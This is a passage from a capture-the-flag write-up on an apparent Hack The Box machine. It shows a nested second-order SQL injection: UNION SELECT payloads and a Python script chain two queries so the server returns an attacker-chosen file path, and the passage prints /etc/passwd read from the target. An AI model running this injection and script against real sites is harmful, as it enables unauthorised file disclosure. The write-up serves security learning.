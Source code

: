 The first thing I tested was to check if I could display the Contact page by returning `contact` instead of `main` from the first query against the `idname` table.

This is the query I want to run against the `idname` table: `SELECT name FROM idname WHERE id = '25' UNION SELECT ALL 'contact'`

Output from my script below:
```
# python sqli.py
> 25' union select all 'contact'
[...]
<body class="container">
Hello visitor,<br/>

thanks for getting in touch with us!<br/>
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.<br/>
Please come back later.
```

Ok, so that was successful and the Contact page was returned so the first injection worked. What I want to do now is inject another SQL injection in the `name` field returned instead of the actual name value so I can use the same UNION SELECT injection on the 2nd query and return a filename of my choosing.

This is the query I want to run against the `filepath` table: `SELECT path FROM filepath WHERE name = 'invalid' UNION SELECT ALL '/etc/passwd'`.

I made another script to do this:

```python
from bs4 import BeautifulSoup
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    file = raw_input("> ")
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```

The 2nd query now returns a file name that I control and I can read files on the target system:

```
# python sqli3.py
> /etc/passwd
[...]
<!-- <div align="center"> -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```